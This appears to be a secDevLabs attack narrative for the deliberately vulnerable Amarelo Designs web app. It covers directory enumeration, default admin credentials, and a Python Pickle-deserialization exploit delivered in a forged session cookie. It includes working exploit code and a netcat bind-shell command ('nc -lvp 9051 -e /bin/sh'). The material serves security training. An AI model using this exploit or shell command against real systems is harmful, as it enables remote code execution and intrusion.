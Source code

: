 # Attack Narrative - Amarelo Designs
The main goal of this document is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain a blind remote code execution.

If you don't know [secDevLabs] or this [intended vulnerable web application][2] yet, you should check them before reading this narrative.

---
## 👀
 
It's possible to reach the server's web application from the HTTP port 5000, as shown by the image below:

<img src="attack1.png" align="center"/>

Making use of the [Dirb] tool to search for webpages, we were able to find `/user`, `/admin` and `/console`, as shown by the picture below: (If you want to install Dirb for Mac OS, be sure to click [here][4])

```sh
$ dirb http://localhost:5000 ./docs/common.txt
```

<p align="center">
    <img src="attack2.png"/>
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image:

<p align="center">
    <img src="attack3.png"/>
</p>

## 🔥
 
A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields gives us acess to an Admin Dashboard, as shown below:

<img src="attack4.png" align="center"/>

Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:

<img src="attack5.png" align="center"/>

After decoding the cookie, which is in base64, the following structure was found:

<img src="attack6.png" align="center"/>

The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:


<img src="attack7.png" align="center"/>

If an attacker knew that the app uses `Pickle` as the serialisation method, he/she could create a malicious cookie to take advantage of it and execute code remotely. An example of an exploit (serializaPickle.py) in Python 3 that could produce this cookie could be:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

In order to be certain that the app is exploitable, we will send a sleep command to make the app unresposive for 10 seconds. If the app takes 10 seconds to return our request, than it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:5000/user
```

<img src="attack9.png" align="center"/>

In order to show how an attacker could have access to the server through a RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:5000/user
```

<img src="attack10.png" align="center"/>

The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="attack11.png"/>
</p>


[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a8/amarelo-designs
[Dirb]: https://tools.kali.org/web-applications/dirb
[Burp Suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a8/amarelo-designs/app/app.py
[Pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
